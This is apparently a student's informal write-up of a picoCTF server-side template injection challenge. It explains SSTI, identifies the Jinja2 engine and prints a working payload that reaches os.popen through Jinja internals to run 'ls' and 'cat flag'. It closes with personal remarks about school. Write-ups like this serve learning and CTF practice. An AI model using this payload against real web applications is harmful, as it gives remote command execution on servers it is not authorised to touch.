




## today topic is about the SSTI
### this question is form the pico CTF
[picoCTF:](https://play.picoctf.org/practice)

<br>
[jinja_doc](https://jinja.palletsprojects.com/en/stable/api/#jinja2.Template.render_async)
<br>

what is the SSTI:
    A server-side template injection attack (SSTI) is when a threat actor exploits a template's native syntax and injects malicious payloads into the template. The compromised template is then executed server-side. -- from google
<br>
what we need to know is the ==template engine==.

Jinja2 for Python, Pug, Handlebars, and EJS for JavaScript/Node.js, JSP for Java and Twig for php.
<br>
by the way,A template engine is a software tool that combines templates with data to generate dynamic output, most commonly in the form of HTML for web pages.
<br>
When I into the web. I saw a bar for input the words and print out. and I just learn a little SSTI.
<br>
first one I try with the Freemaker -- java.


but It's not work...
<br>
SO I try with other Grammar. And It's works :D

```pyORphp

{{7*7}}

```


<br>

but now we have new problem. That is we don't know It's Jinja, twig or other engine. QwQ
<br>
I find around, Until I saw the Network. AwA



<br>
I saw the sever is python, then this web 99% made of Jinja
<br>

I read The Jinja doc and search the command.


<br>

Finally.

```python

{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('command').read() }}

```

<br>
the "self" is the start point. "_TemplateReference__context" is the that start with double underscores are mangled to include the class name. "cycler" is the tool for find the obj. Accessing an object’s "__init__" attribute yields the function object that constructs that type."__globals__" is for using the "os" last we use popen for run command. and read()
<br>

```python

{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}

```


print the file

```python

{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}

```



and we found the flag :D
<br>

something want to say:
this one question it was kind a challenge for me, I have to learn the engine, read doc. But finally I did :D
<br>
I feel a litte pressure about the Scioly, Because I the Ell in school. have a good Conversation with team it's hard.
<br>
but
<br>
--船到桥头自然直
<br>
--everything will work out in the end


